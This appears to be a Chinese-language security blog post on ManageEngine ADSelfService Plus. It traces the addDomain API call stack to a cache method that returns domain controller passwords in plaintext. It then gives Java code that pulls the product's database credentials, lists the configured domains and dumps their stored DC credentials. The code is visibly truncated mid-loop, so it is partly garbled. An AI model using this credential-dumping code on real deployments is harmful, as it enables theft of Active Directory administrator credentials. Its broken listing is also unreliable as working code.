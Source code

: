 ![](https://mmbiz.qpic.cn/mmbiz_png/SHI5wib3tvAMo28mYicMzfo0libJQxxkiabwCUdEf5Ysn1fkEZTvg0cpVodIbbtIlJibSWjfxvn6Re66kB0MwThgKJg/640?wx_fmt=png "")  
  
请求接口：  
http://192.168.220.72:8080/api/json/home/addDomain  
  
请求处理逻辑：com.adventnet.sym.adsm.common.webclient.DomainAction#addDomain  
  
跟踪调用栈，发现运行时com.adventnet.sym.adsm.common.server.cache.DomainCacheManager#getDomainData方法中会直接获取到域控密码的明文  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SHI5wib3tvAMo28mYicMzfo0libJQxxkiabwZ9HiarKLL8eB9fG5Spic7qFEicKAibxErdVe1Hs4XPejKLoxnRwdVqKtfg/640?wx_fmt=png "")  
  
调用栈如下      
```
getDomainData:151, DomainCacheManager (com.adventnet.sym.adsm.common.server.cache)
getDomainDataAsProps:64, DomainCacheManager (com.adventnet.sym.adsm.common.server.cache)
getConfiguredValues:209, HDTDomainHandler (com.adventnet.sym.adsm.common.server.helpdesk)
addDomain:698, DomainAction (com.adventnet.sym.adsm.common.webclient)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
execute:104, ADSMServletAPIController (com.adventnet.sym.adsm.common.webclient)
processRequest:37, ADSMServletAPIAction (com.adventnet.sym.adsm.common.webclient)
doPost:27, ADSMServletAPIAction (com.adventnet.sym.adsm.common.webclient)
```  
  
  
所以我们很容易可以调用DomainCacheManager.getInstance().getDomainData("domainname")  
  
方法获取到明文的域控信息  
  
domain那么直接从数据库中读取即可，最终实现逻辑：  
  
```
public String getdcinfo() {
String returnstr ="";
Connection c = null;
Statement stmt = null;
try {
Properties properties = PersistenceInitializer.getDBProps(PersistenceInitializer.getDBParamsFilePath());
Class.forName("org.postgresql.Driver");
c = DriverManager.getConnection(properties.getProperty("url"),properties.getProperty("username"), properties.getProperty("password"));
c.setAutoCommit(false);
}catch (Exception e){
returnstr = "DB Connection fail";
}
           
try {
ArrayList domainnames = new ArrayList();
stmt = c.createStatement();
ResultSet rs = stmt.executeQuery("SELECT * FROM adsdomains");
while(rs.next()){
domainnames.add(rs.getString("domain_name"));    
}
rs.close();
stmt.close();
for(int i = 0; i
returnstr = "Domain 1: \r\n";
Properties domainproperties = DomainCacheManager.getInstance().getDomainData((String) domainnames.get(i));
for (String key : domainproperties.stringPropertyNames()) {
if(domainproperties.getProperty(key) instanceof String){
returnstr = returnstr+key + "->" + domainproperties.getProperty(key)+"\r\n";
}
```
